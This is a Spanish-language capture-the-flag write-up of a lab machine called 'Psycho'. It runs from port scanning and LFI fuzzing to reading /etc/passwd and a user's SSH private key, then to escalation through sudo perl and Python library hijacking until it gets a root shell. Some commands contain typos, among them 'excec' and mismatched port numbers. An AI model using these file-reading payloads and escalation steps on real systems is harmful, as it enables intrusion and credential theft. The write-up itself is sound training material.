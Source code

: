 ### Informe de máquina *"Psycho"*

![Máquina Psycho](./screenshots/01_machine.png)

Vamos a realizar la maquina "Psycho", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`

![Permisos ejecución deploy](./screenshots/02_permisos_auto_deploy.png)
![Inicialización máquina](./screenshots/03_inicio_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de coneción](./screenshots/04_test_conexion.png)

Ahora realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo con nmap](./screenshots/05_escaneo_nmap.png)


Identificamos que la máquina tiene el puerto 22 y el puerto 80 abiertos, usamos de nuevo la herramienta `nmap` para obtener más detalle de estos mismos.
El comando usado fué:

```bash
nmap -p21,80 -sC -sV -O 172.17.0.2
```

`nmap` → Ejecuta la herramienta de escaneo de red Nmap.

`-p21,80` → Especifica los puertos que queremos escanear. En este caso 21 y 80.

`-sC` → Ejecuta scripts de detección predeterminados

`-sV` → Detección de versiones de servicios.

`-O` → Detección del sistema operativo.

`172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 22 y 80](./screenshots/06_escaneo_puertos_22_80.png)

De momento parece que no encontramos versiones vulnerables, continuemos con un chequeo de la página web

![Página web](./screenshots/07_pagina_web.png)
![Código fuente página web](./screenshots/08_codigo_fuente.png)

Encontramos el nombre de un posible usuario que podria ser "tluisillo" o "luisillo", Es curioso pero al final del código fuente se encuentra un mensaje de error.

Por ahora revisemos su encontramos más páginas o directorios con un ataque de fuzzing.

![Fuzzing páginas y directorios web](./screenshots/09_fuzzing_web.png)

Se encontró un directorio llamado `assets` dentro de este se encontró una imagen llamada "background.jpg", se revisó los metadatos de la misma pero no se entonctró mucha más información.

Al tratarse de un archivo `.php` se procede a intentar un ataque de LFI (Local File Inclusion), que consiste en realizar un llamado de archivos locales para ser visualizados en el navegador.
Procedemos a realizar un ataque de fuzzing con la herramienta `wfuzz` con el siguiente comando:

```bash
wfuzz -c --hl=62 -w /usr/share/worldlists/dirb/common.txt 'http://172.17.0.2/index.php?FUZZ=/etc/passwd'

```

- `wfuzz`	Herramienta de fuzzing 
- `-c`	Activa la salida en color, facilitando la visualización de los resultados.
- `--hl=62`	Oculta respuestas cuyo tamaño es 62 líneas, evitando ruido en la salida. (Evitar consultas con error 404)
- `-w` /usr/share/worldlists/dirb/common.txt	Especifica el diccionario a usar en el fuzzing.
- `'http://172.17.0.2/index.php?FUZZ=/etc/passwd'`	Indica la URL objetivo, donde la palabra clave FUZZ será reemplazada por las palabras del diccionario.

![Fuzzing LFI página web](./screenshots/10_fuzzing_LFI.png)

Se ha encontrado la palabra "secret", es decir haciendo llamado a esta variable la podemos asignar el valor de un archivo interno del servidor como  `/etc/passwd` donde podemos identificar ususarios en el servidor.

```
172.17.0.2/index.php?secret=/etc/passwd
```

![Visualizar usuarios en passwd](./screenshots/11_show_passwd.png)

En código fuente de la página se puede ver con mejor detalle el contenido del archivo, de esta consulta se pudo encontrar 2 usuarios con permisos a shell fuera de root, "luisillo" y "vaxei".
Lo que podemos hacer es ver si encontramos la llave privada ssh de alguno de estos usuarios.
Se intento con luisillo pero sinexito.
Pero se encontró la llave del usuario vaxei

```
172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```

![Encontrar llave privada usuario vaxei](./screenshots/12_show_id_rsa_vaxei.png)


Creamos un nuevo archivo llamado `key` donde guardaremos esta llave presisamente.

![Guardar llave](./screenshots/13_save_key.png)

Para logeranos como un usuario haciendo uso de la llave ejecutamos el siguiente comando:

```bash
ssh -i key vaxei@172.17.0.2
```

![Logearse como vaxei](./screenshots/14_login_as_vaxei.png)

Una vez logueados, revisamos que comandos podemos usar con altos privilegios, vemos que podemos usar `perl` bajo los permisos de usuario `luisillo`
Realizamos una busqueda en [GTFOBins](https://gtfobins.github.io/) de como ejecutar una shell con perl

![Busqueda acceso a sheel con perl](./screenshots/15_shell_perl.png)

Lo ejecutamos con la salvedad que al momento de ejecutar el comando sudo, buscamos los permisos del usuario luisillo, por eso ejectamos el comándo de la siguiente manera:

```bash
sudo -u luisillo perl -e 'excec "/bin/bash/";'
```

![Acceso como luisillo](./screenshots/16_loging_as_luisillo.png)

Una vez con la terminal con los permisos de luisillo, realizamos una busqueda de los permisos sudo que posee este usuario.

Se observa que puede podemos ejecutar el comando `python3` con permisos de superusuario, pero con la salvedad que solo lo podemos hacer con el archivo /opt/paw.py.

Pero es un archivo que no podemos editar, pero si lo podemos visualizar.

Observamos que este archivo hace un llamado a unas librerias, una de ellas `subprocess.py`. *Se puede realizar con las otras librerias támbien*

Python realiza una busqueda de estos archivos en una primera instancia en el directorio donde se encuentra el archivo python que le hace este llamado; es decir, si creamos un archivo con el mismo nombre de una de estas librerias en el mismo directorio, Python hará llamado primero a nuestro archivo antes que al de la libreria.

Primero buscamos en [GTFOBins](https://gtfobins.github.io/) como ejecutar una shell con Python.

![Busqueda shell con python](./screenshots/17_find_shell_python.png)

Ahora si, ubicados en la carpeta /opt creamos el archivo subprocess.py con el comando:

```bash
touch subprocess.py
```

Ahora para escribir dentro de este ejecutamos el comando:

```bash
echo "import os; os.system('/bin/bash')" > subprocess.py
```

Perfecto ahora ejecutemos el archivo `/opt/paw.py` con permisos `sudo` y al momento que haga el llamado a la librería subprocess.py se ejecutará nuestro código.

```bash
sudo python3 /opt/paw.py
```

![Acceso como root](./screenshots/18_root.png)
